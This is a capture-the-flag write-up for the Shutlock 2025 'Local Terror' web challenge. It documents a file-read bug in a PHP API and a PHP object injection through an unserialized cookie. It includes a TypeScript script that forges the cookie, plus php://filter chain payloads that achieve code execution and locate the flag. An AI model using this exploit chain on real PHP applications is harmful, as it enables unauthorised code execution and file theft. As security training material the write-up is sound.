



# Local Terror - Shutlock 2025

> Salut à toi, auditeur cybersécurité ! Pour mon prochain film, "Le Camembert qui Parlait", j'ai utilisé l'outil en ligne CinéScript pour m'aider avec mon scénario. Cependant, je crois que mon scénario a fuité ; le site ne doit pas être très sécurisé. Regarde et dis-moi ce que tu trouves.



```html
<div class="navbar-nav ml-auto">
  <a class="nav-item nav-link" href="#">Accueil</a>
  <a class="nav-item nav-link" href="#about">À Propos</a>
  <a class="nav-item nav-link disabled" href="/api">Le Logiciel</a>
  <a class="nav-item nav-link" href="#contact">Contact</a>
</div>
```

## `/api`



```bash
curl 'http://57.128.112.118:11149/api/' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'userName=hello&inputText=world&language=text&version=v1.1&rendering=on'
```

when removing the `version` we get the following error

```bash
curl 'http://57.128.112.118:11149/api/' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'userName=hello&inputText=world&language=text&version=&rendering=on'
```

```html
<b>Fatal error</b>: Uncaught ValueError: Path cannot be empty in
/var/www/html/api/index.php:109 Stack trace: #0
/var/www/html/api/index.php(109): file_get_contents('') #1 {main} thrown in
<b>/var/www/html/api/index.php</b> on line <b>109</b>
```

that means `version` is a file path;
we can output the `index.php` code by doing...

```bash
curl 'http://57.128.112.118:11149/api/' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'userName=hello&inputText=world&language=&version=index.php&rendering=on'
```

it gives us the following code: (useless parts are removed)

```html
<!DOCTYPE html>
<html lang="fr">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Text Input and Output</title>
    <link href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css" rel="stylesheet">
</head>
<body>
    <div class="container">
        <h2>Entrez Votre Texte</h2>
        <form method="post">
            <input type="text" name="userName" placeholder="Votre Nom" required>
            <textarea name="inputText" rows="5" placeholder="Écrivez votre texte ici..." required></textarea>
            <div class="select-container">
                <select name="language">
                    <option value="text">TEXT</option>
                    <option value="html">HTML</option>
                    <option value="php">PHP</option>
                </select>
                <select name="version">
                    <option value="v2.0">v2.0</option>
                    <option value="v1.5">v1.5</option>
                    <option value="v1.1">v1.1</option>
                </select>
                <select name="rendering">
                    <option value="off">Off</option>
                    <option value="on">On</option>
                </select>
            </div>
            <button type="submit" class="btn-submit">Soumettre</button>
        </form>

        <?php
        // Work done based on previous version: old/index-old-do-not-use-please.php. The last code was vulnerable and so must bot be used in any circumstances.
        if ($_SERVER["REQUEST_METHOD"] == "POST") {
            $userName = htmlspecialchars($_POST['userName']);
            $language = $_POST['language'];
            $version = $_POST['version'];
            $rendering = $_POST['rendering'];
            $inputText = ($rendering === 'on' && $language === 'html') ? $_POST['inputText'] : htmlspecialchars($_POST['inputText']);

            if ($language === "php") {
                echo "<div class='output'>";
                echo "<h2>Erreur :</h2>";
                echo "<p>Vous avez sélectionné l'option 'PHP'. Cette option est désactivée pour des raisons de sécurité.</p>";
                echo "</div>";
                exit;
            }

            if (stripos($version, 'base64') !== false) {
                echo 'HACKER DETECTÉ';
                exit;
            }

            if (strpos($version, '..') === false){
                $fileContent = @file_get_contents("$version");
            } else {
                $fileContent = 'HACKER DETECTÉ';
            }

            echo "<div class='output'>";
            echo "<h2>Soumis par : $userName</h2>";
            echo "<h3>Votre Texte :</h3>";
            echo "<p> $inputText </p>";
            echo "<h3>Contenu du fichier :</h3>";
            echo "<p> $fileContent </p>";
            echo "</div>";
        }
        ?>
    </div>
</body>
</html>
```

we can see that old code was used in `old/index-old-do-not-use-please.php`, let's move to that file.

## `/old/index-old-do-not-use-please.php`

```bash
curl 'http://57.128.112.118:11149/api/' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'userName=hello&inputText=world&language=&version=old/index-old-do-not-use-please.php&rendering=on'
```

```html
<?php

// Do not use this file anymore.
// First of all it is not working well. You need to reload the page to see the output.
// And it is vulnerable to attacks. It is not safe to use this file.
// Please delete and tell the prod tean to not push this file to the server.
// Thx, A.L

class Parser {
    public $text;
    public $debug;
    public $version;
    public $betterprint;

    function __construct($text, $version, $debug = false, $betterprint = false) {
        $this->debug = $debug;
        $this->text = $text;
        $this->version = $version;
        $this->betterprint = $betterprint;
    }

    function evaluate(){
        if ($this->debug && $this->version === 'v1.0') {
            require_once($this);
        }
        echo $this;
    }

    function __toString() {
        if ($this->betterprint) {
            return $this->text;
        }
        return $this->version;
    }

}

if ($_SERVER["REQUEST_METHOD"] == "POST") {
    setcookie("parser", base64_encode(serialize(new Parser($_POST['inputText'],$_POST['version']))), time() + (86400 * 30), "/");
}
?>
<!DOCTYPE html>
<html>
<head>
    <title>Text Input and Output</title>
</head>
<body>
    <div class="container">
        <h2>Enter Your Text</h2>
        <form method="post">
            <textarea name="inputText" rows="10" id="input"></textarea>
            <br>
            <div class="select-container">
                <select name="version" id="version">
                    <option value="v0.5">v0.5</option>
                    <option value="v0.1">v0.1</option>
                </select>
            </div>
            <br>
            <button type="submit" onclick="submitFormData()">Submit</button>
        </form>

        <?php

        if(isset($_COOKIE["parser"]) && !empty($_COOKIE["parser"])){
            echo "<div class='output'>";
            echo "<h3>Your Text:</h3>";
            echo "<p> ";
            echo unserialize(base64_decode($_COOKIE['parser']))->evaluate();
            echo " </p>";
            echo "</div>";
        }
        ?>
    </div>
</body>
</html>
```

- https://www.php.net/manual/en/function.unserialize.php

> Do not pass untrusted user input to `unserialize()` regardless of the options value of `allowed_classes`. Unserialization can result in code being loaded and executed due to object instantiation and autoloading, and a malicious user may be able to exploit this.

this PHP code is vulnerable to [PHP Object Injection (POI)](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection) because it unserializes user input without validation. we can use this to execute arbitrary PHP code.

## exploiting the POI vulnerability



we can make a call to the API to see how the serialization works:

```bash
curl -v 'http://57.128.112.118:11149/api/old/index-old-do-not-use-please.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'inputText=hello+world&version=v1.0'
```

let's read the `parser` cookie returned by the server:

```
Tzo2OiJQYXJzZXIiOjQ6e3M6NDoidGV4dCI7czoxMToiaGVsbG8gd29ybGQiO3M6NToiZGVidWciO2I6MDtzOjc6InZlcnNpb24iO3M6NDoidjEuMCI7czoxMToiYmV0dGVycHJpbnQiO2I6MDt9
```

if we decode it, it gives us the following PHP object:

```
O:6:"Parser":4:{s:4:"text";s:11:"hello world";s:5:"debug";b:0;s:7:"version";s:4:"v1.0";s:11:"betterprint";b:0;}
```

let's look back at the functions in the `Parser` class:

```php
function evaluate(){
  if ($this->debug && $this->version === 'v1.0') {
    require_once($this);
  }

  echo $this;
}

function __toString() {
  if ($this->betterprint) {
    return $this->text;
  }

  return $this->version;
}
```

- in `evaluate()`, `$this` is implicitly converted to a string, so it calls `__toString()`
- in `__toString()`, if `$this->betterprint` is true, it returns `$this->text`

so we could `require_once` whatever we want by setting the `debug` and `betterprint` properties to `true` and the `version` to `v1.0`.

to do so, we can simply swap `0` to `1` in the `debug` and `betterprint` properties, we're already at version `v1.0`, so we can keep it as is.

## setup `php://filter` lfi2rce

- https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters
- https://github.com/synacktiv/php_filter_chain_generator

```typescript
// ./exploit.ts
let output = "";
for await (const chunk of Bun.stdin.stream()) {
  output += Buffer.from(chunk).toString();
}

const [, filter] = output.split("\n");
const cookie = `O:6:"Parser":4:{s:4:"text";s:${filter.length}:${JSON.stringify(
  filter
)};s:5:"debug";b:1;s:7:"version";s:4:"v1.0";s:11:"betterprint";b:1;}`;

const response = await fetch(
  "http://57.128.112.118:11149/api/old/index-old-do-not-use-please.php",
  {
    headers: { cookie: `parser=${btoa(cookie)}` },
  }
);

const html = await response.text();
console.log(html);
```

```bash
wget https://raw.githubusercontent.com/synacktiv/php_filter_chain_generator/refs/heads/main/php_filter_chain_generator.py
```

## `phpinfo()`

```bash
python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>' | bun run exploit.ts
```

with this we can read the output of `phpinfo()` and we can grab those two properties:

```html
disable_functions => apache_note, apache_setenv, chgrp, curl_multi_exec,
define_sys, define_syslog_variables, debugger_off, debugger_on, diskfreespace,
_getppid, escapeshellarg, escapeshellcmd, exec, getmyuid, ini_restore, leak,
listen, parse_ini_file, passthru, pcntl_alarm, pcntl_async_signals, pcntl_exec,
pcntl_fork, file_put_contents, pcntl_get_last_error, pcntl_getpriority,
pcntl_setpriority, pcntl_signal, pcntl_signal_dispatch,
pcntl_signal_get_handler, pcntl_sigprocmask, pcntl_sigtimedwait,
pcntl_sigwaitinfo, pcntl_strerror, pcntl_unshare, pcntl_wait, pcntl_waitpid,
pcntl_wexitstatus, pcntl_wifcontinued, pcntl_wifexited, pcntl_wifsignaled,
pcntl_wifstopped, pcntl_wstopsig, pcntl_wtermsig, posix, posix_ctermid,
posix_getcwd, posix_getegid, posix_geteuid, posix_getgid, posix_getgrgid,
posix_getgrnam, posix_getgroups, posix_getlogin, posix_getpgid, posix_getpgrp,
posix_getpid, posix_getpwnam, posix_getpwuid, posix_getrlimit, posix_getsid,
posix_isatty, posix_kill, posix_mkfifo, posix_setegid, posix_seteuid,
posix_setgid, posix_setpgid, posix_setsid, posix_setuid, posix_times,
posix_ttyname, posix_uname, popen, proc_close, proc_get_status, proc_nice,
proc_open, proc_terminate, shell_exec, show_source, system, url_exec,
preg_replace, opendir, readdir, scandir, print_r open_basedir => /var/www/html
=> /var/www/html
```

a reverse shell is not possible since `exec`, `system`, `shell_exec`, and `popen` are disabled and we can't scan directories either since `opendir`, `readdir`, and `scandir` are also disabled.

also `open_basedir` is set to `/var/www/html`, so we can't read files outside of that directory.

## `get_defined_functions()`

i was running out of ideas, so i tried to read the output of `get_defined_functions()` to see if there are any useful functions that we can use.

```bash
python3 php_filter_chain_generator.py --chain '<?php var_dump(get_defined_functions()); ?>' | bun run exploit.ts
```

after a while, i found the `glob()` function in the output:

```
[0]=>
  ...
  [635] => string(4) "glob"
  ...
}
```

the `glob()` function is not disabled, and it can be used to read files in a directory.

## finding the flag

let's use `glob()` to read the files in the `/var/www/html` directory (since `open_basedir` is set to that directory):

```bash
python3 php_filter_chain_generator.py --chain '<?php var_dump(glob("/var/www/html/*")); ?>' | bun run exploit.ts
```

```
array(3) {
  [0]=>
  string(17) "/var/www/html/api"
  [1]=>
  string(52) "/var/www/html/flag-94583458938490289047237492374.txt"
  [2]=>
  string(23) "/var/www/html/index.php"
}
```

boom! we found the flag file!

```bash
$ curl http://57.128.112.118:11149/flag-94583458938490289047237492374.txt
SHLK{fr0m_l177l3_vuln_70_70p_vuln}
```

there we go!
